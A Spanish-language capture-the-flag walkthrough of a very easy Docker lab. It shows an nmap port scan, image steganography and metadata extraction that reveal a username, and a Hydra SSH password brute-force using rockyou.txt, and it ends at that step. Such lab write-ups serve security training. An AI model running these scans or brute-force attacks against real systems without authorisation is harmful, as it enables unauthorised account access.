 🐋 Docker Lab - borazuwarahctf<br>
- Difficulty: Very Easy
- SO:Linux

🎯 Reconocimiento
1.- Empezamos con un reconocimiento con nmap:<br>
nmap -p- --open --min-rate 5000 -n -Pn -vvv 172.17.0.3 -oN scanning
- -p- -> Escanea todos los puertos (65535)
- --open -> Reporta unicamente los puertos abiertos
- --min-rate -> Envia paquetes no minimos a 5000
- -n -> No aplica resolucion DNS
- -Pn -> Asume que todos los hosts se encuentran activos
- -vvv -> Triple verbose, detalla cada puertos descubierto.
- -oN Output normal  
![RECONOCIMIENTO](./images/boraz8/nmap.png)

2.- Observamos que tiene 2 puertos expuestos<br>
- Puerto 22 [SSH]
- Puerto 80 [HTTP]  
Veamos la web para saber que puede aportarnos.  
![WEB](./images/boraz8/web.png)

Bien, analicemos la imagen utilizando steghide.  
steghide --extract -sf imagen.png<br>
- --extract -> Extrae la informacion
- -sf -> Extrae informacion de un archivo/imagen
![STEGHIDE](./images/boraz8/steghide.png)<br>
Hay un archivo .txt, lo leemos con "cat"
![STEG1](./images/boraz8/setg2.png)<br>

Ahora analizaremos la imagen con exiftool
![EXIFTOOL](./images/boraz8/exiftool.png)

Hay un usuario, podemos probar con SSH, pero no tenemos contraseña. <br>
Para conseguir esta contraseña, utilizaremos HYDRA para realizar un ataque de fuerza bruta, con el siguiente comando.  
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3     
- -l -> Si se tiene el usuario, de lo contraio utilizar -L y un diccionario con nombres de usuario
- -P -> Ya que no tenemos esta contraseña utilizamos un diccionario, en este caso rockyou.txt
- ssh://172.17.0.3 -> Servicio y Servidor (Host)
![HYDRA](./images/boraz8/hydra.png)















